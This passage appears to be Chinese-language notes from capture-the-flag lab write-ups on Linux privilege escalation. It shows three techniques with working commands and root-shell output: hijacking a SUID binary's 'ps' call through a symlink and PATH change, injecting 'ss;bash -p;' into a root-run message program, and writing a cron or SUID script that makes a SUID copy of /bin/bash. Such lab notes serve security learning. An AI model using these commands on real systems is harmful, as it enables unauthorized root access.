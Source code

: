  

发现像是使用shell脚本的形式执行了ps命令，这里如果懂二进制的话，大可以直接去调试二进制文件看看，可以参考：https://www.nuharborsecurity.com/nullbyte-1-walkthrough/

知道上面的结果那么我们可以劫持ps命令提权了

可以使用下面方法提权，软连接

```
cd /var/www/backup
ln -s /bin/sh ps
export PATH=.:$PATH
./procwatch
```

也可以生成一个 ps 文件，然后里面写/bin/sh就可以，给这个文件所有权限然后执行二进制即可提权



## 命令劫持

例子：

msg2root 可以以 root 身份执行 echo 命令，且参数为可控

于是，分开执行 `ss;bash -p;` （bash -p为高权限执行bash）

```bash
bash-4.3$ ./msg2root
./msg2root
Message for root: ss;bash -p;
ss;bash -p;
ss
bash-4.3# id
id
uid=1002(mike) gid=1002(mike) euid=0(root) egid=0(root) groups=0(root),1003(kane)
bash-4.3# cd /root
cd /root
bash-4.3# ls
ls
flag.txt  messages.txt
```



## 其它

- 当我们可以修改一个root计划任务文件、suid 权限的执行文件时，可以如下操作，把 /bin/bash 复制出来加上 s 位

  ```bash
  eric@driftingblues# cat /tmp/emergency 
  #!/bin/bash
  cp /bin/bash /tmp/getroot; chmod +s /tmp/getroot
  
  eric@driftingblues:/tmp$ ./getroot -p
  getroot-4.3# whoami
  root
  ```
